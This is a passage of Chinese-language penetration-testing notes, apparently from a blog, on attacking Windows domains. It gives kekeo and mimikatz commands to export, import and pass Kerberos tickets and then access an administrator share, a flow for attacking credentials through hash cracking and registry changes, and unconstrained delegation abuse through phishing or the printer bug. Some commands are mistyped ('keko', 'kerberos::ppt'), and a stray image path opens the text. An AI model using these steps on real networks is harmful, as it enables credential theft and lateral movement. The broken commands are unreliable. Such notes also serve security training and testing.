 2. 导入票据

   ```
   shell keko "kerberos::ptt TGT_Administrator@xxx@xxx" "exit"
   ```

3. 连接

   ```
   shell dir \\owa2010cn-god\c$
   ```

##### mimikatz查看历史票据：

导出：

```
mimikatz sekurlsa::tickets /export
```

导入：

```
mimikatz kerberos::ppt 票据路径
```

#### 三、凭据攻击思路

1. 明文密码
   1. 服务连接
   2. 失败(防火墙，没服务) --> PTT法1
2. hash
   1. 服务连接
   2. 失败(有服务，无明文) --> 
      1. hashcat破解
      2. 修改注册表，重启
   3. 失败(防火墙，无服务) --> PTT法2

#### 四、委派攻击

**非约束委派：**

1. 查找

   ![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/591eea4b1a584ae3986d70d90789b530.png#pic_center)


2. DC主动/被动访问委派机器

   1. 被动钓鱼，**可以结合exchange服务**

   2. 主动，打印机漏洞（DC2012以上）

      1. 利用

         ![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/7dc8c4c1004b47e987a46df421286721.png#pic_center)


##### 约束委派：
